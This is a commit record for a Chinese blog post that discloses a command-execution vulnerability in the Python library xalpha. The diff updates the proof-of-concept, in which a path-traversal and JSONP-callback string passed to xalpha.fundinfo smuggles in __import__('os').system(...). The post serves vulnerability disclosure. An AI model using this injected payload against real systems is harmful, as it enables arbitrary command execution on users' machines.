

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-07-09-CVE实战 巧挖国产金融类python api库漏洞-高危命令执行0day.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (158-1119 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2023-07-09-CVE实战 巧挖国产金融类python api库漏洞-高危命令执行0day.md

````diff
--- a/_posts/2023-07-09-CVE实战 巧挖国产金融类python api库漏洞-高危命令执行0day.md
+++ b/_posts/2023-07-09-CVE实战 巧挖国产金融类python api库漏洞-高危命令执行0day.md
@@ -8,7 +8,7 @@
 
 整个过程非常的舒服，写个博客记录一下
 
-这个国产api库犯了部分错误，让我在构造整个漏洞链的过程中还是比较舒服的，没有费脑子
+这个地方犯了部分错误，让我在构造整个利用链的过程中还是比较舒服的，没有费脑子
 
 就算遇到无法绕过的死路，也不至于推翻之前的构造链全部重新来过
 
@@ -21,9 +21,9 @@
 环境配置完毕后，执行以下代码
 ```python
 import xalpha
-xalpha.fundinfo("../gaoduan/PinzhongRightApi.aspx?fc=AF5097&callback=jQuery183037745026472073073_ Data_netWorthTrend = print('hacked'); &_=1688890155531#")
+xalpha.fundinfo("../gaoduan/PinzhongRightApi.aspx?fc=AF5097&callback=jQuery183037745026472073073_ Data_netWorthTrend = __import__('os').system('echo 成功触发'); &_=1688890155531#")
 ```
-就可以看到代码:print('hacked')成功被执行
+就可以看到代码:'echo 成功触发'成功被执行
 
 
 由于这两天事情多，没时间写博客，恐怕只能先看github issue了
````
